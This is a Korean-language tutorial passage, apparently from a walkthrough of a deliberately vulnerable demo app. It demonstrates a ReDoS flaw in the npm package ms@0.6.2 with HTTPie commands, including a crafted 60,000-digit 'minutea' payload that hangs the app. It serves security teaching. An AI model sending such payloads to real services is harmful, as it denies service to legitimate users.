

# Example 3

세 번째 예제 취약점은 [`ms`](https://www.npmjs.com/package/ms) npm 패키지에 있습니다. 다양한 시간 형식을 밀리초로 쉽게 변환할 수 있는 모듈입니다. 여기서 문제는 우리가 `ms@0.6.2`를 사용하고 있고 여기에 [ReDos(Regular Expression Denial of Service)](https://snyk.io/test/npm/ms/0.6.2) 취약점이 있다는 것입니다.


이 패키지를 통해 우리가 할 수 있는 것은 문자열 입력을 받아 애플리케이션이 미리 알림을 보내는 데 사용할 밀리초 단위로 구문 분석하는 것입니다. 예를 들어:



이 취약점을 시연하기 위해 터미널로 이동합니다. 애플리케이션에 대해 다음 명령을 실행해 보겠습니다:

```
echo 'content=Reboot server in 20 minutes' | http --form $GOOF_HOST/create -v
```

결과는 다음과 유사한 콘솔 출력입니다.

```
POST /create HTTP/1.1
Accept: */*
Accept-Encoding: gzip, deflate
Connection: keep-alive
Content-Length: 36
Content-Type: application/x-www-form-urlencoded; charset=utf-8
Host: elb.amazonaws.com
User-Agent: HTTPie/2.1.0

content=Reboot server in 20 minutes

HTTP/1.1 302 Found
Connection: keep-alive
Content-Length: 28
Content-Type: text/html; charset=utf-8
Date: Sat, 13 Jun 2020 21:20:16 GMT
ETag: W/"1c-41a86905"
Location: /
Vary: X-HTTP-Method-Override
X-Powered-By: Express

UmVib290IHNlcnZlciBbMjBtXQ==
```

해당 웹 결과는 다음과 같습니다:


이제 이전 명령을 사용하여 숫자 5를 총 60,000번 인쇄합니다. 이 정규식은 입력을 처리하는 데 비선형적인 시간이 걸립니다. 입력이 길수록 처리 시간이 길어집니다. 다음 명령어를 실행해보자

```bash
echo 'content=Reboot server in '\`printf "%.0s5" {1..60000}\`' minutes' | http --form $GOOF_HOST/create -v
```

결과는 놀라울 정도로 빨랐습니다. 그러나 정규식이 일치하지 않으면 어떻게 됩니까? 이를 설명하기 위해 동일한 명령을 사용하고 몇 분 안에 s를 a로 교체해 보겠습니다. 다음 명령을 입력합니다.

```bash
echo 'content=Reboot server in '\`printf "%.0s5" {1..60000}\`' minutea' | http --form $GOOF_HOST/create -v
```

이 명령은 처리하는 데 시간이 걸리며 애플리케이션이 응답하지 않습니다. 작업을 추가하거나 제거하려고 하면 응용 프로그램이 응답하지 않으며 합법적인 요청이 처리되지 않도록 차단됩니다.
